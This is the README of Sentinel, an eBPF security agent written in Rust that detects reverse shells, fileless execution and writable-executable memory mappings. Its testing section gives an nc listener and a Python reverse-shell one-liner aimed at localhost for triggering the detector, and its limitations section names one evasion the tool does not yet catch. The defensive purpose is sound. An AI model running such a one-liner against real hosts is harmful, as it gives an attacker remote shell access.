

<div align="center">

# 🛡️ Sentinel

[](https://www.rust-lang.org/)
[](https://ebpf.io/)
[](https://aya-rs.dev/)
[]()
[](LICENSE)

</div>

**Sentinel** is a stateful security observability agent powered by eBPF (Extended Berkeley Packet Filter).

Unlike traditional EDRs that rely on heavy kernel modules, Sentinel runs safe, sandboxed bytecode directly in the Linux kernel to trace system behavior. It introduces a **Process Registry** pattern—building a "Digital Twin" of every running process in userspace to correlate isolated syscalls into malicious behavior patterns.

> 🚧 **Status:** Active Research / Portfolio Project

---

## 🧠 Architecture

Sentinel moves beyond stateless logging by maintaining a real-time, thread-safe model of system state.



### Key Components

**`sentinel-ebpf` (Kernel):**

* Written in **Rust (no_std)**.
* Uses **CO-RE** (Compile Once, Run Everywhere) to work across different kernel versions without recompilation.
* Captures high-velocity syscalls (`socket`, `connect`, `dup2`, `memfd_create`, `mmap`).

**`sentinel-common` (Wire Protocol):**

* Defines strict `#[repr(C)]` structs for binary compatibility between Kernel and User space.
* Enforces platform-agnostic types (`i32` for PIDs, `[u8; 16]` for IPs) to prevent ABI mismatch.

**`sentinel` (User Agent):**

* **Async/Await:** Built on **Tokio** for non-blocking event processing.
* **Sharded Locking:** Uses `DashMap` and Row-Level `Mutex` locking to ensure tracking PID 100 doesn't block analysis of PID 200.

---

## 🕵️ Detection Capabilities

Sentinel focuses on "Living off the Land" techniques and memory-resident threats.

### 1. Reverse Shell Detection

Detects when an attacker forces a shell to connect back to their machine.

* **Method:** Tracks the lifecycle of File Descriptors (FDs).
* **Signature:** `socket()` (Create) -> `connect()` (Network) -> `dup2()` (Redirection to STDIN/STDOUT).
* **Why it works:** Captures the intent (redirection) rather than just the process name, detecting `netcat`, `bash`, `python`, and custom malware shells.

### 2. Fileless Execution (`memfd_create`)

Detects payloads executed directly from RAM without touching the disk.

* **Method:** Hooks `memfd_create` and correlates it with `execveat`.
* **Signature:** Execution of a file that maps to `/memfd:...` instead of a physical disk path.

### 3. Reflective Loading (`mmap`)

Detects attempts to manually map executable code into memory (Shellcode injection).

* **Method:** Monitors `mmap` syscalls for suspicious protection flags.
* **Signature:** Memory allocation with `PROT_EXEC | PROT_WRITE` (W^X violation).

---

## 🚀 Getting Started

### Prerequisites

* **Rust Nightly:** Required for compiling eBPF.
* **Aya Tool:** For generating kernel bindings.
* **Linux Kernel:** 5.8+ (for full CO-RE support).

```bash
rustup toolchain install nightly
rustup component add rust-src --toolchain nightly
cargo install bpf-linker
cargo install aya-tool

```

### 1. Generate Kernel Bindings

Sentinel uses `vmlinux.rs` to access internal kernel structures (like `sockaddr`). Generate bindings for your specific running kernel:

```bash
cd sentinel-ebpf
aya-tool generate src/vmlinux.rs \
  sockaddr \
  sockaddr_in \
  sockaddr_in6 \
  task_struct \
  file \
  inode \
  path \
  dentry \
  qstr

```

### 2. Build & Run

Sentinel requires `sudo` (CAP_BPF) to load programs into the kernel.

```bash
# In the root directory
cargo build --release

# Run with logging enabled
RUST_LOG=info sudo -E ./target/release/sentinel

```

---

## 🧪 Testing Detections

Sentinel includes a "Malware Simulator" to safely test its capabilities.

### Simulating a Reverse Shell

1. **Terminal 1 (Attacker):** Start a listener.

```bash
nc -lvnp 4444

```

1. **Terminal 2 (Sentinel):** Start the agent.

```bash
RUST_LOG=info sudo -E ./target/release/sentinel

```

1. **Terminal 3 (Victim):** Run the simulator (or a real python reverse shell).

```bash
# Option A: Built-in Rust simulator
cargo run --bin malware_simulator

# Option B: Python one-liner
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("127.0.0.1",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'

```

**Expected Output:**

```text
[INFO] Socket created (FD 3, TCP)
[INFO] Socket connected: FD 3 -> 127.0.0.1:4444
[WARN] 🚨 REVERSE SHELL DETECTED! PID: 1234 redirected Socket (FD 3) to STDIO (FD 0)

```

---

## 🔮 Roadmap & Limitations

* **IPv6 Support:** Currently, the `ReverseShellDetector` analyzes IPv4 headers (`AF_INET`). IPv6 (`AF_INET6`) parsing is planned.
* **Socket Rehydration:** If Sentinel starts *after* a process has already connected, it misses the `connect` event. Future versions will read `/proc/pid/fd` on startup to rebuild state.
* **Evasion:** Advanced malware using `fcntl(F_DUPFD)` instead of `dup2` is not yet covered.

---

## 📜 License

This project is dual-licensed under MIT/Apache-2.0, following the standard Rust ecosystem conventions. eBPF components are GPL-2.0 compatible to ensure kernel verifier acceptance.
